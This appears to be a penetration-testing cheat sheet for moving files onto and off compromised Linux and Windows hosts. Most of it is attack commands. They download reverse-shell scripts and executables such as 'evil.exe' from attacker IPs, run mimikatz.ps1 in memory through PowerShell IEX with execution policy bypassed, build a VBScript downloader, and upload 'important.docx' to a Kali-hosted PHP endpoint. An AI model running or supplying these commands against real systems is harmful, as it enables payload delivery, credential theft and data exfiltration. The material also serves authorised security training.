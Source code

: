 # HTTP

#### Linux

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

#### Windows

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```



## Linux HTTP Server

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

## Python HTTPS Server

```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

## HTTP/FTP wget from linux

```
wget http://ip-addr[:port]/file[-o output-file]
```

#### A lesser known usage of wget is its ability to download FTP files as well. To do that, simply prepend a ftp:// before the URL. If the FTP server needs credentials, specify them with --ftp-user=username and --ftp-password=pass.

## HTTP powershell from windows

#### oneliner command:

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

#### powershell script:

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### to run the script:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### download and execute a PowerShell script without saving it to disk ( only for powershell scripts)

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

or

```
(new-object System.Net.Webclient).DownloadString('http://192.168.50.34:8080/mimikatz.ps1') | IEX
```

## http VBscript from windows

#### run these commands in order to create a vbscrtipt for downloading a file

```

echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

#### To run our wget.vbs script

```
cscript wget.vbs http://ip-addr:port/file output-file
```

## Windows Uploads Using Windows Scripting Languages

#### since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### in windows:

```
C:\Users> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

## Upload Files

#### python script

[https://gist.github.com/UniIsland/3346170](https://gist.github.com/UniIsland/3346170)

